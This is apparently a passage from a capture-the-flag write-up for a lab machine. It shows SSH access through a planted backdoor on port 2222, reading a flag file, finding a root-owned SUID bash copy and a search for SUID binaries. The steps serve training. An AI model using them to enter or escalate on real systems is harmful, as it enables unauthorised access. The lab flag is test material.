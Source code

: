 you see that ssh on port 2222? yeah that's the backdoor

It was visible in the PCAP tcp stream too

We connect to that

```
└──╼ $ssh james@10.10.122.169 -p 2222
The authenticity of host '[10.10.122.169]:2222 ([10.10.122.169]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.122.169]:2222' (RSA) to the list of known hosts.
james@10.10.122.169's password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$

james@overpass-production:/home/james$ cat user.txt
thm{james_did_nothing_wrong}

```
In the same folder there are hidden files

```
james@overpass-production:/home/james$ ls -al
total 1136
drwxr-xr-x 7 james james    4096 Jul 22  2020 .
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache
drwx------ 3 james james    4096 Jul 21  2020 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www
```

`.suid_bash` is owned by root? interresting

check for `suid` (its in the name) and yes it's there

```
james@overpass-production:/home/james$ find / -perm -u=s 2>/dev/null
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/bin/mount
/bin/fusermount
```